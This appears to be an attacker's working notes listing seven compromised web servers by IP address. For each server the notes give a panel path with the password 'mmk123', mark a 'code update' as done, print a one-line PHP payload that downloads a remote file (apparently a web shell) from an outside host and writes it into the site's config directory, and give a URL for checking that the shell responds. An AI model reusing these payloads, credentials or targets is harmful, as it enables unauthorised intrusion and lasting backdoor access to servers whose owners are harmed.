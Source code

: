 http://120.26.133.169/template/template_init.php |mmk123 
代码更新：0608 ✅
http://120.26.133.169/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://120.26.133.169/config/httpd.php?d=up

http://111.229.254.166/template/template_init.php |mmk123 
代码更新：0608 ✅
http://111.229.254.166/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://111.229.254.166/config/httpd.php?d=up

http://139.196.199.227/template/template_init.php |mmk123
代码更新：0608 ✅
http://139.196.199.227/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://139.196.199.227/config/httpd.php?d=up

http://120.26.90.134/template/template_init.php |mmk123 
代码更新：0608 ✅
http://120.26.90.134/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://120.26.90.134/config/httpd.php?d=up

http://39.107.238.130:32/template/template_init.php |mmk123
代码更新：0608 ✅
http://39.107.238.130:32/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://39.107.238.130:32/config/httpd.php?d=up

http://8.137.153.145/template/template_init.php |mmk123 
代码更新：0608 ✅
http://8.137.153.145/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://8.137.153.145/config/httpd.php?d=up

http://39.105.11.50/template/template_init.php |mmk123 
代码更新：0608 ✅
http://39.105.11.50/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://39.105.11.50/config/httpd.php?d=up
